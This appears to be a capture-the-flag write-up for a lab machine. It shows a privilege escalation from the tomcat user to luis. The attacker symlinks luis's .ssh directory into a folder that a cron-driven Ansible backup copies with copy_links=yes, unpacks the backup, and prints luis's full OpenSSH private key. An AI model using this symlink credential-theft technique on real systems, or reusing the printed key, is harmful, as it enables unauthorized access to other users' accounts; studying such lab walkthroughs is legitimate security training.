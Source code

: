 # Privilege escalation to `luis` user
## Discovered `run.yml` file using `pspy64`
Discovered `run.yml` being executed as argument to `/usr/bin/ansible-playbook` and `/usr/bin/ansible-playbook` is executed as `luis` user. 
![[Pasted image 20210928111324.png]]
## Discovered backup files in /opt/backups/archives directory seeing contents of run.yml file
Discovered backup files in /opt/backups/archives directory seeing contents of run.yml file.
```bash
tomcat@seal:/opt/backups/playbook$ cat run.yml
cat run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
tomcat@seal:/opt/backups/playbook$ ls ../archives
ls ../archives
backup-2021-09-28-06:10:33.gz  backup-2021-09-28-06:13:33.gz
backup-2021-09-28-06:11:33.gz  backup-2021-09-28-06:14:33.gz
backup-2021-09-28-06:12:33.gz
tomcat@seal:/opt/backups/playbook$
```
## Seeing contents of /opt/backups/archives it is observerd that backups in .gz are made after every minute , so cronjob is scheduled to run every minute to make backups of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` directory every minute
Seeing contents of /opt/backups/archives it is observerd that backups in .gz are made after every minute , so cronjob is scheduled to run every minute to make backups of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` directory using some cronjob.
As it is evident from pspy64 program.
![[Pasted image 20210928112316.png]]
## Seeing contents of run.yml reveals that `copy_links=yes` is there which means that when content is copied from `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` , it also copies files/directories  that are linked with these directories like if `/home/luis/.ssh` is linked with  `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`etc.
Seeing contents of run.yml reveals that `copy_links=yes` is there which means that when content is copied from `/var/lib/tomcat9/webapps/ROOT/admin/dashboard` , it also copies files/directories  that are linked with these directories like if `/home/luis/.ssh` is linked with  `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`etc.
![[Pasted image 20210928112811.png]]
Note that `var/lib/tomcat9/webapps/ROOT/admin/dashboard` also contains `uploads` folder with in it.
![[Pasted image 20210928113002.png]]
## Linking `/home/luis/.ssh` with `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`
Linking `/home/luis/.ssh` with `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads` , so that when ` /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml` command is run and contents of `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads` are backed up in `.gz` format in `/opt/backups/archives`, files/directories linked with `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads` are also copied using command `ln -s /home/luis/.ssh /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads`.
![[Pasted image 20210928113657.png]]
## Now waiting for cronjob to run so that we can grab private key of luis user found in `.gz`  backup file in `/opt/backups/archives`
![[Pasted image 20210928113940.png]]
## Copying `.gz` backup file to /tmp directory to extract its contents
![[Pasted image 20210928114041.png]]
## Grabbing id_rsa public key of luis user after extracting it `.gz` backup file contents
```bash
tomcat@seal:/opt/backups/archives$ cd /tmp
cd /tmp
tomcat@seal:/tmp$ ls
ls
backup-2021-09-28-06:37:33.gz  hsperfdata_tomcat  pspy64
tomcat@seal:/tmp$ gzip -d backup-2021-09-28-06:37:33.gz
gzip -d backup-2021-09-28-06:37:33.gz
tomcat@seal:/tmp$ ls
ls
backup-2021-09-28-06:37:33  hsperfdata_tomcat  pspy64
tomcat@seal:/tmp$ mv backup-2021-09-28-06:37:33  backup
mv backup-2021-09-28-06:37:33  backup
tomcat@seal:/tmp$ ls
ls
backup  hsperfdata_tomcat  pspy64
tomcat@seal:/tmp$ tar -xvf backup
tar -xvf backup
dashboard/
dashboard/scripts/
dashboard/images/
dashboard/css/
dashboard/uploads/
dashboard/bootstrap/
dashboard/index.html
dashboard/scripts/flot/
dashboard/scripts/datatables/
dashboard/scripts/jquery-ui-1.10.1.custom.min.js
dashboard/scripts/common.js
dashboard/scripts/jquery-1.9.1.min.js
dashboard/scripts/flot/jquery.flot.resize.js
dashboard/scripts/flot/jquery.flot.pie.js
dashboard/scripts/flot/jquery.flot.js
dashboard/scripts/datatables/jquery.dataTables.js
dashboard/images/jquery-ui/
dashboard/images/icons/
dashboard/images/img.jpg
dashboard/images/user.png
dashboard/images/bg.png
dashboard/images/jquery-ui/picker.png
dashboard/images/icons/css/
dashboard/images/icons/font/
dashboard/images/icons/css/font-awesome.css
dashboard/images/icons/font/fontawesome-webfont3294.ttf
dashboard/images/icons/font/fontawesome-webfontd41d.eot
dashboard/images/icons/font/fontawesome-webfont3294.eot
dashboard/images/icons/font/fontawesome-webfont3294.woff
dashboard/css/theme.css
dashboard/uploads/.ssh/
dashboard/uploads/.ssh/id_rsa
dashboard/uploads/.ssh/id_rsa.pub
dashboard/uploads/.ssh/authorized_keys
dashboard/bootstrap/css/
dashboard/bootstrap/js/
dashboard/bootstrap/img/
dashboard/bootstrap/css/bootstrap-responsive.min.css
dashboard/bootstrap/css/bootstrap.min.css
dashboard/bootstrap/js/bootstrap.min.js
dashboard/bootstrap/img/glyphicons-halflings.png
dashboard/bootstrap/img/glyphicons-halflings-white.png
tomcat@seal:/tmp$
```
![[Pasted image 20210928114558.png]]
## id_rsa private key of `luis` user 
```bash
tomcat@seal:/tmp/dashboard/uploads/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
u8KqOiDVrwmFJRAAAACWx1aXNAc2VhbAE=
-----END OPENSSH PRIVATE KEY-----
tomcat@seal:/tmp/dashboard/uploads/.ssh$
```
![[Pasted image 20210928114814.png]]
# SSH logging in as luis user using id_rsa private key of luis user
![[Pasted image 20210928115027.png]]


